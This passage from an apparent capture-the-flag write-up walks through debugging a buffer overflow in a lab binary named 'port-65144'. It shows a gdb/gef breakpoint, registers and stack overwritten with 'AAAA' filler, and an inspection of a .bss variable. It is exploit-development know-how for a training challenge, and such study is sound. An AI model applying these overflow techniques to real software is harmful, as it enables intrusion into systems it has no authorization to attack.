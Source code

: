 I just also wrote a file called `payload.txt` in order to debug with `gdb` later.

I will put a breakpoint in the address `0x804927d` 'cause I think it is changing an already known important variable.

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ gdb port-65144
Reading symbols from port-65144...
(No debugging symbols found in port-65144)
gef➤  break *0x804927d
gef➤  run < payload.txt
```

Remember the variable that is in `.bss` its address is `0x0804c035` so I just printed this out, before execute the breakpoint:

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0804c000  →  0x0804bf14  →  0x00000001
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0xf7f0d580  →  0xfbad2088
$edx   : 0xff8e788c  →  0xf7d4be00  →  <__libc_start_main+0> call 0xf7e6c009
$esp   : 0xff8e7874  →  0x41414141 ("AAAA"?)
$ebp   : 0xff8e787c  →  0x41414141 ("AAAA"?)
$esi   : 0xf7f0d000  →  0x001dfd6c
$edi   : 0xf7f0d000  →  0x001dfd6c
$eip   : 0x0804927d  →   mov BYTE PTR [eax+0x35], 0x1
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xff8e7874│+0x0000: 0x41414141   ← $esp
0xff8e7878│+0x0004: 0x41414141
0xff8e787c│+0x0008: 0x41414141   ← $ebp
0xff8e7880│+0x000c: 0x42424242
0xff8e7884│+0x0010: 0x0000009c
0xff8e7888│+0x0014: 0x0000012c
0xff8e788c│+0x0018: 0xf7d4be00  →  <__libc_start_main+0> call 0xf7e6c009
0xff8e7890│+0x001c: 0xf7f0d000  →  0x001dfd6c
─────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x804926d                  or     BYTE PTR [eax+eax*1+0x24750000], bl
    0x8049274                  cmp    DWORD PTR [ebp+0xc], 0x12c
    0x804927b                  jne    0x8049298
 →  0x804927d                  mov    BYTE PTR [eax+0x35], 0x1
    0x8049284                  sub    esp, 0xc
    0x8049287                  lea    edx, [eax-0x1ff8]
    0x804928d                  push   edx
    0x804928e                  mov    ebx, eax
    0x8049290                  call   0x80490f0 <puts@plt>
─────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "port-65144", stopped 0x804927d in ?? (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804927d → mov BYTE PTR [eax+0x35], 0x1
────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/x 0x0804c035
0x804c035:  0x00000000
```
